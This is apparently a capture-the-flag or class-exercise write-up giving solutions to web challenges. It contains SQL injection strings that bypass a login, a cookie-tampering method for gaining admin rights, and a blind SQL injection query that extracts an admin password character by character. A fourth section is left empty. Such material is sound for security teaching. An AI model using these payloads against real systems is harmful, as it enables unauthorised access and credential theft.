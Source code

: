 # 1
> Username: `testing`
## Solution
type `' OR name like '%%` in the username field to get match any username

type `' OR password like '%%` in the password field to match any password

---

# 2
> Username: `testing`
## Solution
1. Downloaded a cookie modifying browser extension from [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg/related)
2. Modified the `username` cookie, setting the value to `admin`
3. Modified the `admin` cookie, setting the value to `True`
4. Reloaded the page

---

# 3
> Username: `testing`
## Solution
1. Ran this query on the game multiple times to construct the password `53768999`
2. Guessed that dog's name was scotty (from previous problems)

## Code
```sql
1' AND ID=(select COUNT(*) from users where name='admin' AND substr(password,1,1) BETWEEN '5' AND '5') OR ID='
```

---

# 4
> Username: `testing`
## Solution
## Code
## Help Received
